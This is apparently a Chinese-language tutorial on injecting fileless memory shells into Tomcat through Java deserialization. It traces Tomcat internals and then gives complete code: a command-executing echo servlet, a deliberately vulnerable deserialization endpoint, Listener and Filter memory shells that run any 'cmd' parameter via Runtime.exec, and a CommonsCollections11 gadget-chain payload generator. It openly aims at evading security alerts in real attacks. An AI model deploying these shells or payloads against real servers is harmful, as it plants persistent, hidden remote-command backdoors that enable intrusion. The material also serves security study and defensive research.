# 反序列化注入内存马

## 前言

在前面关于 Tomcat 内存马的学习中，我么会初步了解了内存马的原理，但也遗留下了一些问题。之前我们的内存马注入是通过上传 JSP 文件进而注入到内存中，在实战中，这样实现的效果和直接上传一个 JSP 马似乎并无不同，此外 JSP 编译器也会编译我们上传的 JSP 文件生成对应的`.java`和`.class`文件造成文件落地，极大概率会触发安全告警。

在实战中，我们追求的应该是无文件落地的内存马攻击，所以此篇开始步入内存马的实际用途，即通过反序列化完成无文件落地的内存马注入。在正式学习反序列化注入内存马之前，我们先学习另一种内存马回显技术以及获取`StandardContext`对象的方法。

## 全局存储Response回显

在前面通过 JSP 注入内存马的过程中，我们可以通过 JSP 内置的`request`和`response`轻松解决回显的问题。而如果不在 Jsp 中运行，我们就需要寻找获取`request`和`response`以及`StandardContext`对象的方法。

在之前学习的 Tomcat 内存马篇`Listener`、`Filter`和`Servlet`中，我们通过`ServletRequestEvent`、`ServletRequest`和`HttpServletRequest`分别解决了回显的问题。而`StandardContext`对象则是通过`request`对象进行获取。

这里我们学习 @Litch1 师傅的办法：通过 Tomcat 全局存储 Response 回显，该方法不依赖任何框架限制，因此相对于网上其他公开方式更为通用。

### 调用链分析

这里以一个 Listener 实现类 demo为例，断点打在`requestInitialized()`方法上，看看调用链


跟进`Http11Processor#service()`方法


发现存在`request`和`response`，但在该类中并没有出现定义的代码，同时注意到`Http11Processor`类继承于`AbstractProcessor`类


我们去看`AbstractProcessor`类的代码


发现`AbstractProcessor`类存在`request`和`response`属性，并且修饰符为`final`，因此一旦定义就不会被改变。接下来就是寻找如何给`request`和`response`赋值。

在`AbstractProcessor`类的构造方法中，可以看到分别对`request`和`response`进行赋值


打上断点，看看此时的调用链


我们从`AbstractProtocol`类中的`ConnectionHandler`类`process()`方法看起


在`process()`方法调用到了`createProcessor()`方法并将返回内容赋值给`processor`，跟进该方法


在该方法中，创建了`Http11Processor`类，调用到`Http11Processor`类的构造方法


通过`supe()`方法又调用到父类`AbstractProcessor`的构造方法


因为 this 又调用到`protected AbstractProcessor()`方法，因此完成了`request`和`response`属性的赋值。

接下来就是寻找存储`process`的地方，返回到`AbstractProtocol`类下的`ConnectionHandler`类中


跟进`register()`方法


这里将`processor`获取到的内容存储到`RequestInfo`类的对象`rp`中，并且调用了`rp.setGlobalProcessor(global)`方法


而`global`正是`ConnectionHandler`类的属性，同时被 final 修饰，继续跟进`rp.setGlobalProcessor(global)`方法



步入到了`RequestInfo`类，这里注意到`RequestInfo`类有一个被`final`修饰的`request`对象`rep`，继续跟进`global.addRequestProcessor(rp)`方法


发现最终`rp`被存储到了`RequestGroupInfo`类的`processors `数组中，因此最终将`processor`存储到了`ConnectionHandler`类的`global`属性中。


至此先稍微整理一下目前的利用链
```
AbstractProtocol$ConnectionHandler#process() --> this.global --> RequestInfo --> Request --> Response
```

接下来就是想办法获取到`AbstractProtocol$ConnectionHandler`类，继续回到调用链


往上走有个`CoyoteAdapter`类，跟进去


存在一个`Connector`类对象`connector`属性，去看看`Connector`类


在`Connector`类中，存在一个`protocolHandler`属性，查看`ProtocolHandler`类的层次结构


可以看到`AbstractProtocol`是`ProtocolHandler`接口的实现类，我们跑一下看看`Connector`类获取到的`ProtocolHandler`属性为哪个类


可以看到此时的`protocolHandler`为`Http11NioProtocol`类对象，所以如果获取了`Connector`类就能获取到`protocolHandler`属性，也就能获取到`Http11NioProtocol`类的对象，我们跟进该类看看


发现在构造函数中通过`super`关键字执行`NioEndpoint()`，我们跟进`NioEndpoint`类看看层次结构


发现最后继承于`AbstractEndpoint`类，我们回来看看`AbstractProtocol$ConnectionHandler`类


跟进`Handler`接口


发现进入到了`AbstractEndpoint`类，因此可以通过`Connector`类获取到`AbstractProtocol$ConnectionHandler`类。接下来就是寻找获取`Connector`类的方法。

其实这部分知识在我们之前的 [Tomcat内存马之Listener](../../05-内存马专区/0-Tomcat内存马之Listener/Listener内存马.md) 章节有学到过，Tomcat 在启动时通过`Service`创建`Connector`并且进行设置，而`Service`接口的标准实现类则是`StandardService`，我们查看其源代码


跟进`StandardService#addConnector()`方法


可以看到将`connector`传入到`results`数组中，最后赋值到属性`connectors`中


此时调用链为：
```
StandardService --> Connector --> AbstractProtocol$ConnectionHandler#process() --> this.global --> RequestInfo --> Request --> Response
```

那么如何调用到`StandardService`类呢？还记得之前在写 [CVE-2016-4437（shiro-550）漏洞分析](../../04-shiro专区/1-shiro之CVE-2016-4437/CVE-2016-4437.md) 一文中最后关于 Tomcat 类加载的讨论，我们继续说说。

之前我们说到 Tomcat 并非传统的双亲委派机制，那么他是如何实现上下层`ClassLoader` 之前的调用呢？`Thread Context ClassLoader`（线程上下文类加载器）居功至伟。

> Thread 类中通过`getContextClassLoader()`和`setContextClassLoader(ClassLoader cl)`方法用来获取和设置上下文类加载器，如果没有通过`setContextClassLoader(ClassLoader cl)`方法设置类加载器，那么线程将继承父线程的上下文类加载器。
>
> 如果在应用程序的全局范围内都没有设置的话，那么这个上下文类加载器默认就是应用程序类加载器。对于 Tomcat 来说`ContextClassLoader`被设置为`WebAppClassLoader`（在一些框架中可能是继承了`public abstract WebappClassLoaderBase`的其他 Loader )。

我们打个断点


找找此时`tccl`的内容


这里可以看到，此时的线程类加载器是继承了`WebAppClassLoader`类的`ParallelWebAppClassLoader`类，并且看到了`StandardService`类，所以我们可以通过`Thread.currentThread().getContextClassLoader() `进而获取到上下文中的`StandardService`类。

最终调用链为：
```
WebappClassLoaderBase --> Thread.currentThread().getContextClassLoader() --> StandardService --> Connector --> AbstractProtocol$ConnectionHandler#process() --> this.global --> RequestInfo --> Request --> Response
```

### 构造利用链

我们开始按照上面跟的图和总结的利用链开始逐步构造
```java
package com.servlet.study;

import org.apache.catalina.connector.Connector;
import org.apache.catalina.core.StandardContext;
import org.apache.coyote.ProtocolHandler;
import org.apache.coyote.RequestGroupInfo;
import org.apache.coyote.RequestInfo;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.PrintWriter;
import java.lang.reflect.Field;
import java.util.List;
import java.util.Scanner;

/**
 * Created by dotast on 2022/11/21 16:50
 */
@WebServlet("/tomcatecho")
public class TomcatEcho extends HttpServlet {

    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        try{
            // 获取StandardContext
            org.apache.catalina.loader.WebappClassLoaderBase webappClassLoaderBase = (org.apache.catalina.loader.WebappClassLoaderBase)Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();
            // 获取ApplicationContext
            Field context = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("context");
            context.setAccessible(true);
            org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext)context.get(standardContext);
            // 获取StandardService
            Field service = Class.forName("org.apache.catalina.core.ApplicationContext").getDeclaredField("service");
            service.setAccessible(true);
            org.apache.catalina.core.StandardService standardService = (org.apache.catalina.core.StandardService)service.get(applicationContext);
            // 获取Connectors
            Field connectorsField = Class.forName("org.apache.catalina.core.StandardService").getDeclaredField("connectors");
            connectorsField.setAccessible(true);
            Connector[] connectors = (Connector[]) connectorsField.get(standardService);
            Connector connector = connectors[0];
            // 获取ConnectionHandler
            ProtocolHandler protocolHandler = connector.getProtocolHandler();
            Field handler = Class.forName("org.apache.coyote.AbstractProtocol").getDeclaredField("handler");
            handler.setAccessible(true);
            org.apache.tomcat.util.net.AbstractEndpoint.Handler abstractEndpointHandler = (org.apache.tomcat.util.net.AbstractEndpoint.Handler)handler.get(protocolHandler);
            // 获取RequestGroupInfo
            Field globalField = Class.forName("org.apache.coyote.AbstractProtocol$ConnectionHandler").getDeclaredField("global");
            globalField.setAccessible(true);
            RequestGroupInfo requestGroupInfo = (RequestGroupInfo)globalField.get(abstractEndpointHandler);
            // 获取process
            Field processorsField = Class.forName("org.apache.coyote.RequestGroupInfo").getDeclaredField("processors");
            processorsField.setAccessible(true);
            List<RequestInfo> requestInfoList = (List<RequestInfo>) processorsField.get(requestGroupInfo);
            // 获取request和response
            Field requestField = Class.forName("org.apache.coyote.RequestInfo").getDeclaredField("req");
            requestField.setAccessible(true);
            for(RequestInfo requestInfo: requestInfoList){
                org.apache.coyote.Request request = (org.apache.coyote.Request) requestField.get(requestInfo);
                //通过org.apache.coyote.Request的Notes属性获取继承HttpServletRequest的org.apache.catalina.connector.Request
                org.apache.catalina.connector.Request http_request = (org.apache.catalina.connector.Request) request.getNote(1);
                org.apache.catalina.connector.Response http_response = http_request.getResponse();

                InputStream inputStream = Runtime.getRuntime().exec(http_request.getParameter("cmd")).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes)) !=-1){
                    bao.write(bytes, 0, a);
                }
                http_response.getWriter().write(new String(bao.toByteArray()));
            }
        }catch (Exception e){

        }
    }
}
```


## 反序列化注入内存马

添加`commons-collections`和`servlet`的依赖，我们写一个可以存在反序列化漏洞的`servlet`做测试

```java
package com.servlet.study;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ByteArrayInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.util.Base64;

/**
 * Created by dotast on 2022/11/1 11:21
 */
@WebServlet(urlPatterns = "/vuln")
public class ServletTest extends HttpServlet {
    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        byte[] data = Base64.getDecoder().decode(req.getParameter("name"));
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(data);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        try{
            objectInputStream.readObject();
        }catch (Exception e){
            e.printStackTrace();
        }

    }
}
```

### 反序列化注入Listener内存马

编写`TomcatEchoInjectListener`注入内存马类
```java
package com.memoryshell;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;

import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.http.HttpServletRequest;
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Field;

/**
 * Created by dotast on 2022/11/18 11:20
 */
public class TomcatEchoInjectListener extends AbstractTranslet implements ServletRequestListener {

    public TomcatEchoInjectListener() throws Exception{
        WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
        StandardContext standardContext = (StandardContext)webappClassLoaderBase.getResources().getContext();
        standardContext.addApplicationEventListener(this);
    }


    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void requestDestroyed(ServletRequestEvent sre) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent sre) {
        HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();

        try{
            String cmd = req.getParameter("cmd");
            if(cmd != null){
                Field field = req.getClass().getDeclaredField("request");
                field.setAccessible(true);
                org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) field.get(req);
                Response response = request.getResponse();
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes))!=-1){
                    bao.write(bytes,0,a);
                }
                response.getWriter().write(new String(bao.toByteArray()));
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

再通过`CommonsCollections11`链加载`TomcatEchoInjectListener`类的字节码生成序列化数据
```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/10/12 15:50
 */
public class CommonsCollections11 {
    public static void main(String[] args) throws Exception{
        CommonsCollections11 commonsCollections11 = new CommonsCollections11();
        commonsCollections11.serialize();
        //commonsCollections11.unserialize();
    }
    public void serialize() throws Exception{
        byte[] classBytes = getBytes();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        // 反射修改
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, targetByteCodes);

        Field name = templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "name");

        Field _class = templates.getClass().getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(templates, null);

        // 创建恶意的调用链
        InvokerTransformer invokerTransformer = new InvokerTransformer("toString",new Class[0], new Object[0]);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, invokerTransformer);
        // 创建TiedMapEntry实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,templates);
        Map expMap = new HashMap<>();
        expMap.put(tiedMapEntry,"valueTest");
        outerMap.remove(templates);
        // 通过反射修改iMethodName值为newTransformer
        Field f = invokerTransformer.getClass().getDeclaredField("iMethodName");
        f.setAccessible(true);
        f.set(invokerTransformer, "newTransformer");
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out =  new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);
    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
    public static byte[] getBytes() throws Exception{
        InputStream inputStream = new FileInputStream(new File("./target/classes/com/memoryshell/TomcatEchoInjectListener.class"));
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        int a = -1;
        while((a = inputStream.read())!=-1){
            bao.write(a);
        }
        byte[] bytes = bao.toByteArray();
        return bytes;

    }
}
```



Listener 内存马注入成功


### 反序列化注入Filter内存马

同理，把加载内存马的语句放在构造方法中，在`CommonsCollections11`反序列化时执行
```java
package com.memoryshell;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Map;

/**
 * Created by dotast on 2022/11/21 11:42
 */
public class TomcatEchoInjectFilter extends AbstractTranslet implements Filter {
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    public TomcatEchoInjectFilter() throws Exception{
        try {
            String filterName = "TomcatEchoInjectFilter";
            // 获取StandardContext对象
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();

            // 利用FilterDef对filter进行封装
            FilterDef filterDef = new FilterDef();
            filterDef.setFilter(this);
            filterDef.setFilterName(filterName);
            filterDef.setFilterClass(this.getClass().getName());
            standardContext.addFilterDef(filterDef);

            // 创建FilterMap，将filterName和urlPatterns进行绑定
            FilterMap filterMap = new FilterMap();
            filterMap.setFilterName(filterName);
            filterMap.addURLPattern("/*");
            filterMap.setDispatcher(DispatcherType.REQUEST.name());
            standardContext.addFilterMapBefore(filterMap);

            // 封装filterConfig和filterDef到filterConfigs
            Field field_filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
            field_filterConfigs.setAccessible(true);
            Map filterConfigs = (Map) field_filterConfigs.get(standardContext);

            // 利用反射创建FilterConfig，并且将filterDef和standardContext作为参数进行传入进行封装filterDe
            Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
            constructor.setAccessible(true);
            ApplicationFilterConfig applicationFilterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

            // 添加到filterConfigs中
            filterConfigs.put(filterName,applicationFilterConfig);
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        String cmd = servletRequest.getParameter("cmd");
        try{
            if(cmd != null){
                InputStream inputStream = Runtime.getRuntime().exec(cmd).getInputStream();
                ByteArrayOutputStream bao = new ByteArrayOutputStream();
                byte[] bytes = new byte[1024];
                int a = -1;
                while((a = inputStream.read(bytes))!=-1){
                    bao.write(bytes, 0, a);
                }
                servletResponse.getWriter().write(new String(bao.toByteArray()));
            }
        }catch (Exception e){
            e.printStackTrace();
        }
        // 使下一个 Filter 能够继续执行
        filterChain.doFilter(servletRequest,servletResponse);
    }

    @Override
    public void destroy() {
    }
}

```

### 坑点

这里注意两个坑点，一个是需要添加`commons-collections`依赖到这里，不然会报找不到类的错误


另一个坑点是我的 Tomcat 版本是 9.0.65，该版本`webappClassLoaderBase.getResources().getContext()`会返回为空


重新下了个 9.0.50 版本的就可以了


当然高版本下也可以通过反射获取
```java
WebappClassLoaderBase classLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
    try {
        Field baseResources = WebappClassLoaderBase.class.getDeclaredField("resources");
        baseResources.setAccessible(true);
        WebResourceRoot webResourceRoot = (WebResourceRoot) baseResources.get(classLoaderBase);
        StandardContext context = (StandardContext) webResourceRoot.getContext();
        } catch (Exception e) {
            e.printStackTrace();
        }
```

